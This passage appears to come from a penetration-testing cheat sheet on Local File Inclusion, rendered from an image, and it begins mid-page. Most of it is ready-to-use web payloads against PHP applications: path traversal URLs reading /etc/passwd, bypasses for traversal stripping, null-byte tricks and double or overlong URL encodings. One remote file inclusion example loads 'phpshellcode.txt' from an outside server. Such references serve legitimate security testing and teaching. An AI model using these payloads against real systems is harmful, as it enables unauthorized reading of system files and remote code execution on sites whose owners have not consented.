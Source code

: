 Try also to change `/` for `\`\
Try also to remove `C:/` and add `../../../../../`

A list that uses several techniques to find the file /boot.ini (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Check the LFI list of linux.

## Basic LFI and bypasses

All the examples are for Local File Inclusion but could be applied to Remote File Inclusion also (page=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).

```
http://example.com/index.php?page=../../../etc/passwd
```

### traversal sequences stripped non-recursively

```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

### **Null byte (%00)**

Bypass the append more chars at the end of the provided string (bypass of: $\_GET\['param']."php")

```
http://example.com/index.php?page=../../../etc/passwd%00
```

This is **solved since PHP 5.4**

### **Encoding**

You could use non-standard encondings like double URL encode (and others):

```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### From existent folder

Maybe the back-end is checking the folder path:

```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```
